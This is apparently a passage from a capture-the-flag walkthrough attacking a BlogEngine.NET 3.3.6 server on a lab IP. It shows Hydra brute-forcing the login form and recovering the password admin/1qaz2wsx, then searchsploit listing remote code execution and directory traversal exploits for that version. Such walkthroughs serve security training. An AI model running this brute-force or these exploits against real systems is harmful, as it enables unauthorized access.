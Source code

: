 ```text
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-30 05:11:49
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.39.227:80/Account/login.aspx:__VIEWSTATE=HyDAVJBUzaoWbePyeU7aJWUKLoIeSNhkpLwoKuSJYYorT2mFK5gG3zW4y%2Faa0Nv60arFkTV0uFNS8cU8Zrhf3QFwm4LeDyJVKQOfqh0GHwiKFm0NU%2BBahqGt9szkQqO6inS92zNkiQ2x6usDxT9Zumz3go6vwo3AfOWIfRNuJeYa%2FsbQ&__EVENTVALIDATION=lSQI5ypG9I3szy4G87w98h3YF4IR%2FNhNTjz1YjdKlGwjWuzNrGbLTR%2Bm%2FHYM84xxxticrZc8pgZrywRT5QrN2kYdTOWNlu0Iw%2FUYZclfGLWghmvGeRx4rfh5oYC8QbeVh60uXYY0FpdFSJGJY4D56nvCYUwXjUfl4QlydaPXqAKiNcb9&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed
[80][http-post-form] host: 10.10.39.227   login: admin   password: 1qaz2wsx
[STATUS] attack finished for 10.10.39.227 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-30 05:12:42
```

## Compromise the machine 

Logged in as admin, click on the "About" link from the menu.

| ![About](/_static/images/about.png)
|:--:|
| About page with version information |

    # searchsploit blogengine 3.3.6
    ------------------------------------------------------------------------------- ---------------------------------
     Exploit Title                                                                 |  Path
    ------------------------------------------------------------------------------- ---------------------------------
    BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution             | aspx/webapps/46353.cs
    BlogEngine.NET 3.3.6/3.3.7 - 'dirPath' Directory Traversal / Remote Code Execu | aspx/webapps/47010.py
    BlogEngine.NET 3.3.6/3.3.7 - 'path' Directory Traversal                        | aspx/webapps/47035.py
    BlogEngine.NET 3.3.6/3.3.7 - 'theme Cookie' Directory Traversal / Remote Code  | aspx/webapps/47011.py
    BlogEngine.NET 3.3.6/3.3.7 - XML External Entity Injection                     | aspx/webapps/47014.py
    ------------------------------------------------------------------------------- ---------------------------------
    Shellcodes: No Results
    Papers: No Results

